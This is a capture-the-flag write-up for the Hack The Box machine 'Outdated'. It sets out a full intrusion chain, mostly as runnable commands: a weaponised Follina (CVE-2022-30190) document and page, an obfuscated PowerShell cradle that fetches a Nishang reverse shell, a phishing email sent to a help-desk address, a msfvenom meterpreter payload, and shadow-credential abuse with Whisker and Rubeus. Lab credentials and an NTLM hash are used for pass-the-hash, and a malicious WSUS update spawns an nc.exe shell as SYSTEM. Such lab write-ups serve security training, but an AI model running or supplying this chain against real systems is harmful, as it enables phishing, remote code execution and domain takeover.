


---
---

# HTB - Outdated

NMAP


Add outdated.htb to /etc/hosts

Add mail.outdated.htb to /etc/hosts

```bash
enum4linux -u "Guest" -a 10.129.229.239

```


/Shares is "**OK OK"**

```bash
smbclient -U Guest \\\\10.129.229.239\\Shares

```


- Interesting file:


- Here we can see an email address **itsupport@outdated.htb**
- As well as a list of potentially non patched CVE's

- The first one stands out because it can partly be exploited through email

\*\* Edit: The Word document wasn't sent in this room because the victim client machine doesn't actually have Office installed.

So what happened was, instead of sending the Word .docx document, which would call for the exploit.html file, once someone opened the Word document.
We need to host the exploit.html file and send a hyperlink, in the body of an email, to the victim

```bash
git clone https://github.com/onecloudemoji/CVE-2022-30190.git
```


- That gives us a word document that will be sent to the victim to open
- Once opened, the word document will call back to the attacker machine and GET the exploit.html, which holds the payload


\*ours is called exploit.html

- **<u>Edit the word document:</u>**
  - Rename the word doc to **.zip** - so we can see the .xml files inside


- Extract the contents


- Navigate to **clickme/word/\_rels/document.xml.rels**


- We need to edit the highlighted line to point to our attack machine

- **YOU MUST keep the exclamation mark!** It will not run if you omit this from the end of the URL


- Right click on the clickme folder and Create Archive and choose .zip again


- Now just rename the .zip back to .docx


- **<u>Edit the exploit.html:</u>**



- **The exploit must contain at least 3541 characters before the window.location.href**,
and they must be within the script tag. There is about 6000 or so included in the exploit.html


- The window.location.href:


**<u>What is mpsigstub.exe?</u>**


- Atm the script is a POC that executes calculator

- We need to change the BrowseForFile parameter:


**<u>Add exploit:</u>**

- First download the Nishang Invoke-PowerShellTcp.ps1 script
<https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1>

- At the bottom of the script, in order to trigger the reverse connection, we need to append:
```bash
Invoke-PowerShellTcp -Reverse -IPAddress <KALI IP> -Port 8081

```


- Now we use Invoke-Expression to launch the ps1 file:
```powershell
Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8vMTAuMTAuMTQuNjYvSW52b2tlLVBvd2VyU2hlbGxUY3AucHMxIikK'+[char]34+'))')))

```
- The bold base64 text above is:
```bash
IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.66/Invoke-PowerShellTcp.ps1")

```


**<u>Exploit setup:</u>**
- First we need to host the exploit.html:
```bash
sudo python -m http.server 80

```
- Set up a listener:
```bash
rlwrap -cAr nc -lvnp 8081

```
- Send an email to itsupport, with a clickable hyperlink:
```bash
swaks -s "mail.outdated.htb" -p "25" -t "itsupport@outdated.htb" -f "dev@outdated" --header "New web application" --body "The new web application http://10.10.14.66/exploit.html"

```
- Now wait for someone to click the link


- And we have a shell


- Upgrade to meterpreter (or just to have a backup shell):
```bash
  msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.66 LPORT=4447 -f exe -o reverse.exe
  curl http://10.10.14.66/reverse.exe -o reverse.exe
  msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.10.14.66; set lport 4447; exploit"
```

- The NMAP scan we did was for the DC
- But the person who clicked the link, is using a workstation (on the domain)
- And that is what we've gained a foothold on

```bash
systeminfo

```


- We can see the internal 172.16.20.20 address
As well as the fact that the **DNS server is on 172.16.20.1** (which the DC is hosting - from the NMAP scan)


- Here we can see the different users for the local and domain:


```bash
arp -a

```


```bash
whoami /all

```


- Looking at the user btables:


Got some plain credentials (for the user we already have):

**btables@outdated.htb**

**GHKKb7GEHcccdCT8tQV2QwL3**

- **<u>Enumerate the domain:</u>**

- Upload Sharphound:
```bash
.\SharpHound.exe --CollectionMethods All --Domain outdated.htb --ZipFileName loot.zip

```
- Copy the loot file back to the attacker
- Set up sudo neo4j console
- Open Bloodhound and drag the loot.zip file in

- Mark btables as owned and select


- Download Whisker:
<https://github.com/eladshamir/Whisker>

<https://github.com/jakobfriedl/precompiled-binaries>

- Upload Whisker.exe to target:
```bash
.\Whisker.exe add /target:sflowers /domain:outdated.htb

```



- Upload Rubeus:
- Run the command that was produced by Whisker:
```bash
.\Rubeus.exe asktgt /user:sflowers /certificate: <certificate base64> /password:"lxcgCS6Re5JsGCmq" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

```


- Try and crack it with:
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt

```
- What we can do instead is, use the NTLM hash with evil-winrm (as port 5985 is open):
```bash
evil-winrm -u sflowers -H "1FCDB1F6015DCB318CC77BB2BDA14DB5" -i outdated.htb

```


```bash
whoami /all

```


- One thing that stands out is the group **OUTDATED\WSUS Administrators**

- Check if WSUS is active and being used:
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer

```


- Get the address of the WSUS server:
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

```


By default, WSUS will use port **8530 for HTTP** and **8531 for HTTPS**

So we can see that it's using HTTP here

**<u>Exploit:</u>**

- Download SharpWSUS:
<https://github.com/h4rithd/PrecompiledBinaries/tree/main/SharpWSUS>

- Upload SharpWSUS.exe,PSExec.exe and nc.exe to the DC:


- We need to create a new malicious update
**(NOTE: The payload has to be a windows signed binary)**

Hence why we are using PSExec from SysInternals

- Create the malicious WSUS update:
```bash
.\SharpWSUS.exe create /payload:"C:\Users\sflowers\Downloads\PsExec64.exe" /args:"-accepteula -s -d c:\\users\\sflowers\\Downloads\\nc.exe -e cmd.exe 10.10.14.66 8444" /title:"Important Update4" /date:2024-01-02 /kb:500130 /rating:Important /description:"Really important update" /url:"https://google.com"

```


- Approve the update:
```bash
.\SharpWSUS.exe approve /updateid:8a4c761a-4c52-4130-b987-ee1d2cd54b3d /computername:dc.outdated.htb, /groupname:"Important Group1"

```


- Setup a listener and wait

- And we get a shell as SYSTEM:

